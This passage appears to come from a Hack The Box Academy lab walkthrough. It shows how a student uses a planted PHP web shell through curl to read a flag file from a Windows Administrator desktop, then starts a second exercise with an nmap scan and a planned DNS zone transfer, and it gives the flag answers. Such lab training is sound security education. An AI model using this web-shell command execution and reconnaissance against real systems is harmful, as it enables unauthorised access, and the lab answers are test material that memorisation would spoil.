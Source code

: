 Then, students need to print out the contents of the flag file "flag.txt", which is inside the directory `C:\Users\Administrator\Desktop\`, using the web shell (utilizing HTTP and not HTTPS):

Code: shell

```shell
curl -w "\n" http://STMIP/90957b76a1f20de2b13c5bcb2d05b5cf.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ curl -w "\n" http://10.129.242.84/90957b76a1f20de2b13c5bcb2d05b5cf.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt

HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}
```

Answer: `HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}`

# Attacking Common Services - Medium

## Question 1

### "Assess the target server and find the the flag.txt file. Submit the contents of this file as your answer."

After spawning the target machine, students need to launch an `Nmap` scan against it:

Code: shell

```shell
nmap -A STMIP
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ nmap -A 10.129.183.208

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 16:47 GMT
Nmap scan report for 10.129.183.208
Host is up (0.013s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
<SNIP>
53/tcp   open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
<SNIP>
```

Students will notice that there is a DNS server running, therefore, they need to attempt a zone transfer with `dig`:

Code: shell
